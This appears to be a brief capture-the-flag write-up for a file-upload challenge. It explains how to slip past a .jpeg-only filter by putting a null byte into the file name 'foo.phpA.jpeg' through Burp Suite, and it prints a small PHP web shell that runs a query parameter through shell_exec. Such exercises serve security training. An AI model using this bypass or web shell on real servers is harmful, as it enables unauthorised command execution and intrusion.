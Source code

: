 # File Upload

## Description

This site only accepts .jpeg files as uploads... or does it? Find a way to upload a different file type and hack into the server's filesystem to find the flag!

Category: Intermediate

## Hint

What character usually indicates the end of a string? Remember: file names are just strings!

## Flag

not that far...

## Write-Up

Will update as challenge progresses...
Using burp suite, intercept the request for upload of file foo.phpA.jpeg - change the A to a null char and the upload will work. You can put in a php file such as

	<?php
	$c = $_GET['c'];
	$output = shell_exec($c);
	echo "<pre>$output</pre";
	?>
	
and gain access to the shell.